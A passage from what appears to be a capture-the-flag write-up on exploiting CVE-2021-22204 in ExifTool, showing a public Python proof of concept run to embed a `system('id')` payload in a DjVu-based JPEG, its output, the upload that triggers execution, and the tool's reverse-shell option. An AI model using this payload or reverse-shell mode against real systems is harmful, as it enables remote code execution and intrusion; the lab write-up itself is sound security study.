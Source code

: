 
#### POC

There are a ton of POCs that can be found by Goolging for “CVE-2021-22204
POC”. I liked [this one](https://github.com/UNICORDev/exploit-CVE-2021-22204)
because it’s written in Python and has a nice user interface.

When I first try to run it, it errors out saying I am missing the DjVu support
libraries, which I’ll install with `sudo apt install djvulibre-bin`. Then I
can run it, giving a command to run. I’ll start with `id`:

    
    
    oxdf@hacky$ python /opt/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py -c 'id'
    
            _ __,~~~/_        __  ___  _______________  ___  ___
        ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
            |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
    _V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
        
    UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
    PAYLOAD: (metadata "\c${system('id')};")
    DEPENDS: Dependencies for exploit are met!
    PREPARE: Payload written to file!
    PREPARE: Payload file compressed!
    PREPARE: DjVu file created!
    PREPARE: JPEG image created/processed!
    PREPARE: Exiftool config written to file!
    EXPLOIT: Payload injected into image!
    CLEANUP: Old file artifacts deleted!
    SUCCESS: Exploit image written to "image.jpg"
    

It compresses the DjVu format into a `.jpg` file. On uploading that to Meta,
there’s execition:

![image-20220603162451231](https://0xdfimages.gitlab.io/img/image-20220603162451231.png)

### Shell

The tool help shows that the `-s` flag will spawn a reverse shell:

    
    
    oxdf@hacky$ python /opt/exploit-CVE-2021-22204/exploit-CVE-2021-22204.py
    UNICORD Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
    
    Usage:
      python3 exploit-CVE-2021-22204.py -c <command>
      python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
      python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
      python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
      python3 exploit-CVE-2021-22204.py -h
    
    Options:
      -c    Custom command mode. Provide command to execute.
      -s    Reverse shell mode. Provide local IP and port.
      -i    Path to custom JPEG image. (Optional)
      -h    Show this help menu.
    